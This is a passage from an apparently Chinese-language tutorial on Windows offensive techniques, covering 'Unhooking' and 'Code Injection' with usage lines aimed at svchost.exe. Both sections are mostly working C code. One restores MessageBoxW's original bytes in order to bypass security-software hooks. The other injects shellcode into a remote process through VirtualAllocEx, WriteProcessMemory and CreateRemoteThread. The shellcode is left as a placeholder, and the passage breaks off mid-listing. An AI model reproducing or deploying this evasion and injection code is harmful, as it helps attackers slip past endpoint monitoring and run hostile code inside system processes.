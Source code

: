  **12\. Unhooking**

 ** **说明:
****Unhooking指的是恢复被挂钩的函数的原始字节的过程(即，它的行为已经被改变，通常是由安全软件或恶意软件)。通过解挂钩函数，可以绕过依赖于这些挂钩的监视或其他安全机制。

  * 

    
    
    unhook.exe svchost.exe

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>  
    // This is a simple representation of the first few bytes of the MessageBoxW function// in its original state. This might vary based on the Windows version and updates.unsigned char originalBytes[] = { 0x8B, 0xFF, 0x55, 0x8B, 0xEC };  
    int main() {    HMODULE hUser32 = GetModuleHandleA("user32.dll");    if (!hUser32) {        printf("Failed to get handle to user32.dll.\n");        return 1;    }  
        // Get the address of MessageBoxW    FARPROC pMessageBoxW = GetProcAddress(hUser32, "MessageBoxW");    if (!pMessageBoxW) {        printf("Failed to get address of MessageBoxW.\n");        return 1;    }  
        // Change memory protection to allow writing    DWORD oldProtect;    if (!VirtualProtect(pMessageBoxW, sizeof(originalBytes), PAGE_EXECUTE_READWRITE, &oldProtect)) {        printf("Failed to change memory protection.\n");        return 1;    }  
        // Overwrite the beginning of MessageBoxW with the original bytes    memcpy(pMessageBoxW, originalBytes, sizeof(originalBytes));  
        // Restore the original memory protection    VirtualProtect(pMessageBoxW, sizeof(originalBytes), oldProtect, &oldProtect);  
        printf("Unhooked MessageBoxW successfully.\n");  
        // Test the unhooked function    MessageBoxW(NULL, L"Unhooked MessageBox", L"Test", MB_OK);  
        return 0;}

 **13\. 代码注入(Code Injection)**

 **说明:** 代码注入(Code
Injection)是一种攻击者将恶意代码注入正在运行的进程中的技术。这可以用于各种目的，例如使用目标进程执行任意代码、逃避检测或绕过安全机制。

  * 

    
    
    code_inject.exe svchost.exe

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>  
    int main() {    DWORD processID;    HANDLE hProcess;    LPVOID remoteBuffer;    char code[] = {        // ... Your shellcode goes here ...    };  
        // Assuming you've already obtained the PID of svchost.exe    printf("Enter the PID of svchost.exe: ");    scanf("%d", &processID);  
        // Open the target process    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);    if (!hProcess) {        printf("Failed to open target process.\n");        return 1;    }  
        // Allocate memory in the target process    remoteBuffer = VirtualAllocEx(hProcess, NULL, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);    if (!remoteBuffer) {        printf("Failed to allocate memory in target process.\n");        CloseHandle(hProcess);        return 1;    }  
        // Write the code into the target process    if (!WriteProcessMemory(hProcess, remoteBuffer, code, sizeof(code), NULL)) {        printf("Failed to write to target process memory.\n");        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);        CloseHandle(hProcess);        return 1;    }  
        // Create a remote thread to execute the code    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);    if (!hThread) {        printf("Failed to create remote thread in target process.\n");        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);        CloseHandle(hProcess);        return 1;    }  
        // Wait for the remote thread to finish    WaitForSingleObject(hThread, INFINITE);  